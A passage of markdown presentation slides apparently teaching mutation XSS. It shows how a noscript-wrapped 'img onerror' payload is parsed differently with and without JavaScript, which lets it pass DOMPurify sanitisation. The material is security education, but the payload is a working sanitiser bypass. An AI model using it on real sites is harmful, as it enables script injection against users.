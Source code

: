 
## mXSS

```html
<script><div title="</script>">
```

⬇️

```html
<html>
<head>
<script><div title="</script>
</head>
<body>
">
</body>
</html>
```

---

## mXSS

- HTML vs JS parser
- `noscript` is interpreted differently depending on whether JavaScript is enabled in the browser or not
- invalid HTML code is interpreted differently: `template` `innerHtml` (as if JS disabled) vs `div` `innerHtml` (as if JS enabled)

---

## mXSS

```html
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
```

⬇️ if JavaScript is **disabled**

```html
<noscript>
<p title="</noscript><img src=x onerror=alert(1)>"></p>
</noscript>
```

⬇️

DOMPurify: no sanitization because no JS -> no XSS

---

## mXSS

```html
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
```
